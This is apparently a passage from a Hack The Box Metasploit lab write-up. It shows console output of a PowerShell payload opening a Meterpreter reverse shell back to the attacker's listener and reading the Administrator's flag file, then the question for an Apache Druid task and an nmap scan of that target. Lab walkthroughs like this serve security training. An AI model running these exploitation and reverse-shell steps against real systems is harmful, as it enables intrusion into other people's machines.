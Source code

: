 ```zsh
[*] 10.129.139.197:445 - Selecting PowerShell target
[*] 10.129.139.197:445 - Executing the payload...
[+] 10.129.139.197:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 10.129.139.197
[*] Meterpreter session 1 opened (10.10.14.174:4444 -> 10.129.139.197:49671) at 2025-04-21 09:14:37 -0400

meterpreter > cat C:/Users/Administrator/Desktop/flag.txt
HTB{MSF-W1nD0w5-3xPL01t4t10n}meterpreter > 
```

# Payloads

#### Questions

+ Exploit the Apache Druid service and find the flag.txt file. Submit the contents of this file as the answer.

```zsh
❯ sudo nmap -sCV -p 2181,8081,8082,8083,8091,8888 -T 4 --min-rate 3000 10.129.155.99
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-21 09:42 EDT
Nmap scan report for 10.129.155.99
Host is up (0.27s latency).

PORT     STATE SERVICE   VERSION
2181/tcp open  zookeeper Zookeeper 3.4.14-4c25d480e66aadd371de8bd2fd8da255ac140bcf (Built on 03/06/2019)
8081/tcp open  http      Jetty 9.4.12.v20180830
| http-title: Apache Druid
|_Requested resource was http://10.129.155.99:8081/unified-console.html
|_http-server-header: Jetty(9.4.12.v20180830)
8082/tcp open  http      Jetty 9.4.12.v20180830
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.12.v20180830)
8083/tcp open  http      Jetty 9.4.12.v20180830
|_http-server-header: Jetty(9.4.12.v20180830)
|_http-title: Site doesn't have a title.
8091/tcp open  http      Jetty 9.4.12.v20180830
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.12.v20180830)
8888/tcp open  http      Jetty 9.4.12.v20180830
|_http-server-header: Jetty(9.4.12.v20180830)
| http-title: Apache Druid
|_Requested resource was http://10.129.155.99:8888/unified-console.html

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.55 seconds
                                                                
```
